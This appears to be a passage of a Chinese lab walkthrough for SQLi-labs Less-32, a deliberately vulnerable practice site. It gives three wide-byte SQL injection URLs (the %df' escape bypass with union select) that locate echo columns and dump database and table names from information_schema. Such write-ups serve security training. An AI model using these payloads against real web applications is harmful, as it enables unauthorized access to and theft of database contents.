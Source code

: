 #### 寻找回显位

```
http://192.168.231.129:9001/Less-32/?id=-1%df' union select 1,2,3%23 
```

<img src="%E6%A9%99%E5%AD%90%E7%A7%91%E6%8A%80.assets/image-20230607201323254.png" alt="image-20230607201323254" style="zoom:33%;" />

#### 爆库

```
http://192.168.231.129:9001/Less-32/?id=-1%df' union select 1,group_concat(schema_name),3 from information_schema.schemata%23 
```

<img src="%E6%A9%99%E5%AD%90%E7%A7%91%E6%8A%80.assets/image-20230607201634066.png" alt="image-20230607201634066" style="zoom: 33%;" />

#### 爆表

```
http://192.168.231.129:9001/Less-32/?id=-1%df' union select 1,group_concat(table_name),3 from information_schema.tables where table_schema=database()%23 
```
